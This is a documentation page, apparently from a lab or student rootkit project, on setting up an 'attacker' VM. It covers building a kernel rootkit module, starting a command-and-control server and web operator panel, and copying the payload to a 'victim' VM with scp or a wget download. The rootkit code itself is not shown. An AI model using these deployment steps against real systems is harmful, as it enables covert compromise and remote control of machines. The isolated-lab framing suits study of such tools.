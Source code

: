 ```yaml
---
title: "Attacker VM Setup"
description: "Configure the attacking VM with C2 server and web interface"
icon: "terminal"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 203
---
```




## Prerequisites

1. **Host setup**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM disk**: `attacker.qcow2` in `/var/lib/libvirt/images/`
3. **VM launched**: `sudo ./scripts/run_vms.sh attacker`


## VM Access

- **IP**: 192.168.200.11 (static)
- **Credentials**: `attacker` / `jules` (auto-login)

## Setup Method

{{< tabs tabTotal="2" >}}

{{% tab tabName="Pre-built (Recommended)" %}}

### Quick Start

Everything is pre-configured. Build and run immediately:

```bash
# Inside attacker VM (auto-logged in)
cd epirootkit

# Build rootkit
cd rootkit && make clean && make
ls -la epirootkit.ko  # ✅ Ready

# Start C2 server + Web UI
cd .. && ./deploy_c2.sh
# ✅ C2 server: port 4444
# ✅ Web interface: port 3000
```

**Access**: `http://192.168.200.11:3000` from host browser or `http://localhost:3000` from attacker VM browser

{{% /tab %}}

{{% tab tabName="Fresh VM Setup" %}}

### Prerequisites on the VM

The setup requires the `setup_attacker.sh` script. You have two options to obtain it:

**Option 1: Get it from the host with python (recommended)**

```bash
# In the scripts/ directory on the host
python3 -m http.server 8080
```
Then on the attacker VM:

```bash
wget http://192.168.200.1:8080/setup_attacker.sh
chmod +x setup_attacker.sh
```



**Option 2: Download from GitHub Gist**

```bash
wget https://gist.githubusercontent.com/KazeTachinuu/397da3d739384de9e592a2e6f26b7cc0/raw/0895738fbf9dccc16dd6fe1139eb206ec9024076/setup_attacker.sh
chmod +x setup_attacker.sh

```


### Setup

**1. Install Dependencies (inside VM):**
```bash
./setup_attacker.sh
```
This installs:

- Node.js 18.x LTS
- Build tools (gcc, make, linux-headers-$(uname -r), python3)
- SSH server


**2. Deploy Project (from host):**
```bash
./scripts/deploy_project.sh
# ✅ Transfers all project files via SSH
```

**3. Auto Build and Start (inside VM):**
```bash
cd epirootkit && ./deploy_c2.sh
# ✅ Builds rootkit automatically
# ✅ Installs C2 dependencies  
# ✅ Starts C2 server + Web UI
```

**Access**: `http://192.168.200.11:3000` from host browser or `http://localhost:3000` from attacker VM browser


{{% /tab %}}

{{< /tabs >}}

#### Deploy to Victim

Transfer rootkit to victim VM:

```bash
# Option A: SCP
scp rootkit/epirootkit.ko rootkit/deploy_rootkit.sh victim@192.168.200.10:~/

# Option B: HTTP server
cd rootkit && python3 -m http.server 8080
# Victim: wget http://192.168.200.11:8080/{epirootkit.ko,deploy_rootkit.sh}

# Option C: Web UI file transfer
```

## Configuration

### Attacker VM Role
- **Builds rootkit**: Compiles `epirootkit.ko` for victim
- **C2 server**: Port 4444 (client connections)
- **Web interface**: Port 3000 (operator access)
- **File transfer**: Deploys payload to victim

### Network
- **Attacker IP**: `192.168.200.11`
- **C2 port**: `4444` (default)
- **Web UI**: `http://192.168.200.11:3000`

## Next Steps

1. **[Victim Setup]({{< relref "victim-vm-setup.md" >}})**: Deploy rootkit
2. **Monitor**: Watch for client connections
3. **Control**: Use CLI or Web UI
